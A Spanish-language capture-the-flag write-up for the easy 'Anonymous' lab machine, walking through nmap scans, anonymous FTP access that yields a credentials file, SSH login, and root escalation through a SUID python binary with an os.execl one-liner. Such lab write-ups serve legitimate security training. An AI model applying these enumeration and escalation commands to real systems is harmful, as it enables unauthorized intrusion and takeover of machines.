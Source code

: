 ```yaml
---
layout: post
title: Anonymous
subtitle: Plataforma MiraSoyRoot Dificultad Fácil
cover-img: /assets/img/anonymous.png
thumbnail-img: /assets/img/anonymous.png
share-img: /assets/img/anonymous.png
author: Elmili72
---
```


![anonymous](https://github.com/user-attachments/assets/7f991e6c-c3c7-4204-b434-3982da3c2f8d)

## Escaneo general de puertos

Como siempre, para empezar realizamos un escaneo general de los puertos que pudieran estar abiertos en nuestra máquina.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:51:45 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Conocidos los puertos abiertos podemos realizar un escaneo específico para conocer los servicios y las versiones. En este caso los puertos 21 (FTP) y 22 (SSH). Cabe destacar que nos permite el inicio de sesión con  el usuario *anonymous*, por lo que podemos entrar al servicio y exfiltrar información relevante.

```bash
❯ nmap -sCV -p21,22 172.17.0.2 -oN target
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
|_drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:2c:f0:4d:f3:f1:66:9b:24:ac:ea:3a:b7:68:18:7c (ECDSA)
|_  256 be:1b:55:29:51:a5:94:3e:b0:fc:d9:b7:98:9d:06:c5 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio FTP

En la enumeración del FTP tenemos un archivo interesante que es *crendenciales.txt*. Que para nuestra suerte nos da crenciales como el propio nombre indica.

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elmili): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23955|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads
226 Directory send OK.
ftp> get credenciales.txt
local: credenciales.txt remote: credenciales.txt
229 Entering Extended Passive Mode (|||48922|)
150 Opening BINARY mode data connection for credenciales.txt (38 bytes).
100% |*******************************************************************************************************************************|    38      537.81 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (65.79 KiB/s)
```

```bash
❯ cat credenciales.txt
Usuario: yados
Contraseña: croissant
```

## Exploitación

Al no haber otra vulnerabilidad que nos permita lograr la intrusión probamos las credenciales directamente contra el SSH.
### Intrusión

Y estamos dentro del usuario *yados*.

```bash
❯ ssh yados@172.17.0.2
yados@172.17.0.2\'s password: 
Linux 7dec485919af 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
yados@7dec485919af:~$ id
uid=1000(yados) gid=1000(yados) groups=1000(yados)
yados@7dec485919af:~$ whoami
yados
```

## Post-Explotación

Trar ver el archivo /etc/passwd y confirmar que no hay más usuarios para hacer pivoting pasamos directamente a la mejor parte de todo CTF. La escalada de privilegios :D.
### Escalada de Privilegios

No parece que exista la función *sudo*, por lo que directamente buscamos archivos con permisos *SUID*. Y vemos el binario */usr/local/bin/python*, así que vamos a explotarlo un poquito.

```bash
yados@7dec485919af:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
```

También vemos el binario sudo pero al no tener permisos de sudoers no podemos hacer nada con él a simple vista, por lo que continuamos con el binario de python.

```bash
yados@7dec485919af:~$ /usr/bin/sudo /bin/bash -p
[sudo] password for yados: 
yados is not in the sudoers file.
This incident has been reported to the administrator.
```

Para el que no esté familiarizado con este tipo de escalada recomiendo *GTFOBins*, que puede ser nuestro mejor amigo en estos casos. Y conseguimos el usuario *root* y leer el archivo *mirasoyroot.txt*.

```bash
yados@7dec485919af:~$ cd /tmp
yados@7dec485919af:/tmp$ mkdir privesc && cd privesc
yados@7dec485919af:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1000(yados) gid=1000(yados) euid=0(root) groups=1000(yados)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
felicidades hacker lo has conseguido, si eres de los 3 primeros en completar la maquina hablamé por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
